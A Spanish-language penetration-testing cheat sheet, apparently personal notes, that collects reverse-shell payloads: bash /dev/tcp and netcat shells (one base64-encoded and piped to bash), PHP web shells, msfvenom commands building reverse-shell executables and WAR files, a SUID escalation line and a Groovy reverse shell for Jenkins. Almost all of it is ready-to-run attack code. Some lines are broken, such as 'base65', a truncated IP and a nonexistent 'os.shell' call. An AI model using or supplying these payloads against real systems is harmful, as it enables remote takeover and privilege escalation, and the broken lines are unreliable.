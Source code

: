 # RCE - Reverse Shell

Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:

```bash
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Aunque a veces es mejor indicárselo como parámetro:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

En el caso de pasarlo como parámetro en una url hay que "escapar" los & con **%26**.

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.49/443 0>%261"
```

Tambien podemos pasar tode en base64. Para generarlo:

```bash
echo "bash -c 'bash -i > /dev/tcp/10.11.16.52/443 0>&1'" | base65
```

Para ejecutarlo:

```bash
echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExLjE2MC80NDQ0IDA+JjEiCg==" | base64 -d | bash
```

Otra manera:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.76.112 443 >/tmp/f
```

## PHP

Ejecución de comandos

```php
<?php system($_REQUEST["cmd"]); ?>
```

Otra manera más bonita:

```php
<?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```

Similar a esta:

```php
<?php
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>

```

Directamente la consola:

```php
<?php system("bash -i >& /dev/tcp/192.168.11.160/443 0>&1"); ?>
```

## NETCAT

Con netcat se puede entablar reverse shell:

```bash
nc -e /bin/sh 92.168.11.160 443
```

Ya tambien ponerse a la escucha:

```bash
sudo nc -nlvp 443
```


## Python
Ejemplo para cambiar permisos a SUID.
```python
import os
os.shell("chmod u+s /bin/bash")
# Luego en bash /bin/bash -p
```
## Windows

```
#Con nc
cmd.exe /c "C:\users\joe\documents\nc.exe -e cmd.exe 192.168.11.160 4444"
```

## MSFVENOM
```
# aplicación war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.11.160 LPORT=443 -f war > reverse.war

# Para BufferOverflow
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.196.198 LPORT=443 --platform windows -a x86 -b "\x00" -f c

# Como ejecutable para Windows
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```

## Groovy - Jenkings

Ejemplo de consola en [[Jenkins]].

```groovy
String host="172.17.0.1";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
